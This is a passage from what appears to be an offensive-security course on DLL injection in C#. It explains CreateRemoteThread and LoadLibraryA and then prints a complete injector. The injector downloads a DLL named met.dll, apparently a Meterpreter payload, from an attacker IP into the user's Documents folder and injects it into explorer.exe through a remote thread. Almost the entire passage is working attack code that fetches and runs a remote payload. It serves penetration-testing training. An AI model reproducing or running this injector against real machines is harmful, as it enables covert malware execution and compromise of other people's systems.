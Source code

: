 > Listing 22 - Locating the address of LoadLibraryA

Finally, we can invoke _CreateRemoteThread_, this time supplying both a starting address, which is _LoadLibraryA_, and an argument address, which contains the path to the DLL:

```
IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib, addr, 0, IntPtr.Zero);
```

> Listing 23 - Creating a remote thread with argument

Our full DLL injection code is as follows:

```
using System;
using System.Diagnostics;
using System.Net;
using System.Runtime.InteropServices;
using System.Text;

namespace Inject
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
        static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
        public static extern IntPtr GetModuleHandle(string lpModuleName);

        static void Main(string[] args)
        {

            String dir = Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);
            String dllName = dir + "\\met.dll";

            WebClient wc = new WebClient();
            wc.DownloadFile("http://192.168.119.120/met.dll", dllName);

            Process[] expProc = Process.GetProcessesByName("explorer");
            int pid = expProc[0].Id;

            IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
            IntPtr outSize;
            Boolean res = WriteProcessMemory(hProcess, addr, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
            IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib, addr, 0, IntPtr.Zero);
        }
```
